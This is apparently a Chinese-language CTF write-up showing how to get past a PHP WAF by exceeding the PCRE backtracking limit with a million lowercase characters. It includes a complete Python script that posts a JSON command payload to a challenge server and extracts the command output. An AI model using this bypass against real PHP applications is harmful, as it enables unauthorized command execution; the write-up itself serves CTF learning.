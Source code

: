 思路: 注意这个 WAF 中不含小写字符, 因此只要在 payload 中 (`cmd` 的**后面**)加入足够多的任意小写字符即可。

几个需要注意的点:

> - php 默认的 PCRE 调用次数上限是 1000000

> - 这里要用 POST 方法, GET 有大小限制;

> - 必须用小写字母, 不能用 `A-Z0-9`, 根据源码里的过滤逻辑 ``[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+``, 这里面的字符如果匹配到是不会回溯的, 包含这些字符就直接被杀了;

> - 垃圾字符必须在 payload 后方, 此时每多输入一个垃圾字符就使得回溯深度 + 1;

```python
#!/usr/bin/env python3

import requests
import re


def main():
    url = 'http://node4.anna.nssctf.cn:28126/index.php'
    proxy = {
        "http": "http://127.0.0.1:8080",
        "https": "http://127.0.0.1:8080",
    }

    command = 'ls /'
    bypass = 'a' * 1000000
    payload = '{%0a"cmd":"' + command + '","bypass":"' + bypass + '"%0a}'
    data = {
        'cmd': payload
    }
    resp = requests.post(url, data=data, proxies=proxy)

    # 打印 HTTP 状态码
    print(f'[+] HTTP {resp.status_code}\n')

    # 提取 Attempting to run command 部分
    match = re.search(
        r'Attempting to run command:<br/>.*?<br/>', resp.text, re.S)
    if match:
        print("[+] result found: \n" + match.group(0))
    else:
        print("[-] No command output found")

    # 检测是否被拦截
    match = re.search(
        r'Hack', resp.text, re.S)
    if match:
        print("[-] WAF detected! \n")

if __name__ == '__main__':
    main()
```
